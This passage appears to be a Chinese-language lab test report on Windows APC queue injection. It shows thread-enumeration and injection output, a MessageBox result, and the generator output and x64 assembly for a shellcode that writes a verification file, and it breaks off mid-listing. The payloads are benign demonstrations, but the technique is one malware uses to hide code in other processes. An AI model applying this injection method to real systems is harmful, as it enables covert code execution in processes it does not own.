 ```bash
[*] 步骤 3: 枚举目标进程的所有线程...
[+] 找到 98 个线程

[*] 步骤 4: 向每个线程的 APC 队列注入 shellcode...
  线程 106256: APC 已入队
  线程 42448: APC 已入队
  线程 110008: 无法打开线程 (错误: 87)
  线程 58140: 无法打开线程 (错误: 87)
  ...
[+] 成功向 2/98 个线程注入 APC

[*] 提示: shellcode 将在线程进入 alertable 状态时执行
```

**结果**: ✅ **成功** - MessageBox 弹窗出现（标题 "Injected via APC"，内容 "APC Queue Injection!"）

**观察**：
- 98 个线程中仅 2 个成功入队（正常现象，多数线程需要特殊权限）
- MessageBox 在注入后约 1-2 秒出现（线程进入 alertable 状态时）

---

### 测试 2: 文件验证 Shellcode

**目的**: 完整功能验证（创建文件 + 写入内容 + 自动退出）

**生成验证 Shellcode**:
```bash
$ gcc -o build/apc_verify_shellcode.exe build/apc_verify_shellcode.c
$ ./build/apc_verify_shellcode.exe

[+] CreateFileA address: 0x00007FFB3F297240
[+] WriteFile address: 0x00007FFB3F297720
[+] CloseHandle address: 0x00007FFB3F296FA0
[+] ExitThread address: 0x00007FFB40368DE0

[+] Shellcode generated: 350 bytes
[+] Shellcode written to apc_verify_shellcode.bin
```

**Shellcode 逻辑**:
```c
// 动态解析 API 地址（在生成时硬编码到 shellcode）
FARPROC pCreateFileA = GetProcAddress(hKernel32, "CreateFileA");
FARPROC pWriteFile = GetProcAddress(hKernel32, "WriteFile");
FARPROC pCloseHandle = GetProcAddress(hKernel32, "CloseHandle");
FARPROC pExitThread = GetProcAddress(hKernel32, "ExitThread");

// Shellcode 行为：
sub rsp, 0x48                                 // 栈对齐
lea rcx, [rip+filepath]                       // "C:\Users\Public\apc_queue_injection_verified.txt"
mov rdx, 0x40000000                           // GENERIC_WRITE
xor r8, r8                                    // dwShareMode = 0
xor r9, r9                                    // lpSecurityAttributes = NULL
mov qword [rsp+0x20], 2                       // CREATE_ALWAYS
mov qword [rsp+0x28], 0x80                    // FILE_ATTRIBUTE_NORMAL
mov qword [rsp+0x30], 0                       // hTemplateFile = NULL
mov rax, <CreateFileA_addr>                   // 硬编码 API 地址
call rax                                      // 创建文件
mov r15, rax                                  // 保存文件句柄

mov rcx, r15                                  // hFile
lea rdx, [rip+content]                        // "APC Queue Injection Verified!..."
mov r8, <content_len>                         // 字节数
lea r9, [rsp+0x38]                            // lpNumberOfBytesWritten
mov qword [rsp+0x20], 0                       // lpOverlapped = NULL
```